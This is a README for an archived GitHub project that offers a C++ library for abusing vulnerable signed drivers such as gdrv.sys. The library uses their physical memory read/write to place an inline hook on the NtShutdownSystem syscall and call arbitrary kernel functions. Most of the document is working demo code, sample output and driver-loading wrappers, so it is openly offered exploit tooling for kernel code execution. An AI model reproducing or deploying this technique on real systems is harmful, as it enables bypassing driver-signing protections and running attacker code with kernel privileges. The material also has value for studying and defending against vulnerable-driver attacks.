 
# Vulnerable Driver Manipulation

## Project Status - ARCHIVED
- This repository will not be maintained or receive updates.
***
A library to manipulate drivers exposing a physical memory read/write primitive to allow the user to call any function in the kernel. There are thousands of drivers exposing physical
memory read/write, a bunch are listed in this repo. Currently the project is using gdrv.sys. This is basiclly what physmeme was about but that project is not truly "physical read and write" 
whereas this project is. This project can be used more broadly then physmeme.

# Example

In this example VDM syscalls into an inline hook placed on `ntoskrnl.NtShutdownSystem` to call memcpy exported from ntoskrnl.exe. The original bytes are restored
directly after the syscall returns.

#### Demo Code
```cpp
// read physical memory using the driver...
vdm::read_phys_t _read_phys =
	[&](void* addr, void* buffer, std::size_t size) -> bool
{
	return vdm::read_phys(addr, buffer, size);
};

// write physical memory using the driver...
vdm::write_phys_t _write_phys =
	[&](void* addr, void* buffer, std::size_t size) -> bool
{
	return vdm::write_phys(addr, buffer, size);
};

vdm::vdm_ctx vdm(_read_phys, _write_phys);
const auto ntoskrnl_base =
	reinterpret_cast<void*>(
		util::get_kmodule_base("ntoskrnl.exe"));

const auto ntoskrnl_memcpy =
	util::get_kmodule_export("ntoskrnl.exe", "memcpy");

std::printf("[+] drv_handle -> 0x%x, drv_key -> %s\n", drv_handle, drv_key.c_str());
std::printf("[+] %s physical address -> 0x%p\n", vdm::syscall_hook.first, vdm::syscall_address.load());
std::printf("[+] %s page offset -> 0x%x\n", vdm::syscall_hook.first, vdm::nt_page_offset);
std::printf("[+] ntoskrnl base address -> 0x%p\n", ntoskrnl_base);
std::printf("[+] ntoskrnl memcpy address -> 0x%p\n", ntoskrnl_memcpy);

short mz_bytes = 0;
vdm.syscall<decltype(&memcpy)>(
	ntoskrnl_memcpy,
	&mz_bytes,
	ntoskrnl_base,
	sizeof mz_bytes
);

std::printf("[+] kernel MZ -> 0x%x\n", mz_bytes);
```

#### Demo Code Result
```
[+] drv_handle -> 0x100, drv_key -> frAQBc8Wsa1xVPfv
[+] NtShutdownSystem physical address -> 0x0000000002D0B1A0
[+] NtShutdownSystem page offset -> 0x1a0
[+] ntoskrnl base address -> 0xFFFFF80456400000
[+] ntoskrnl memcpy address -> 0xFFFFF804565D5A80
[+] kernel MZ -> 0x5a4d
[+] press any key to close...
```

# Usage

Currently the project is configured to use gdrv, but if you want to swap the driver out you must defined four functions. You can also change which syscall you want to 
hook by changing this variable inside of `vdm_ctx/vdm_ctx.h`.

```cpp
// change this to whatever you want :^)
constexpr std::pair<const char*, const char*> syscall_hook = { "NtShutdownSystem`", "ntdll.dll" };
```

### vdm::load_drv

Replace this function with the code required to load your driver... Return an std::pair containing the driver handle and an std::string containing the registry key name
for the driver. The key name is returned from [loadup](https://githacks.org/xerox/loadup).

```cpp
__forceinline auto load_drv() -> std::pair <HANDLE, std::string>
{
	const auto [result, key] =
	    driver::load(
		vdm::raw_driver,
		sizeof(vdm::raw_driver)
	    );

	if (!result) return { {}, {} };
	vdm::drv_handle = CreateFile(
		"\\\\.\\GIO",
		GENERIC_READ | GENERIC_WRITE,
		NULL,
		NULL,
		OPEN_EXISTING,
		FILE_ATTRIBUTE_NORMAL,
		NULL
	);

	return { vdm::drv_handle, key };
}
```

### vdm::unload_drv

This code probably wont change, its just a wrapper function for `driver::unload`, but it also closes the driver handle before trying to unload the driver...

```cpp
__forceinline bool unload_drv(HANDLE drv_handle, std::string drv_key)
{
    return CloseHandle(drv_handle) && driver::unload(drv_key);
}
```

### vdm::read_phys

Most drivers expose mapping of physical memory. This means you will need to map the physical memory, memcpy it, then unmap it. This allows support
for drivers that actually only offer physical read and write and not physical map/unmap.

```cpp
__forceinline bool read_phys(void* addr, void* buffer, std::size_t size)
{
    // code to read physical memory. most drivers offer map/unmap physical
    // so you will need to map the physical memory, memcpy, then unmap the memory
}
```

### vdm::write_phys

This function is going to probably contain the same code as `vdm::read_phys` except the memcpy dest and src swapped...

```cpp
__forceinline bool write_phys(void* addr, void* buffer, std::size_t size)
{
    // code to write physical memory... same code as vdm::read_phys
    // except memcpy dest and src are swapped.
}
```
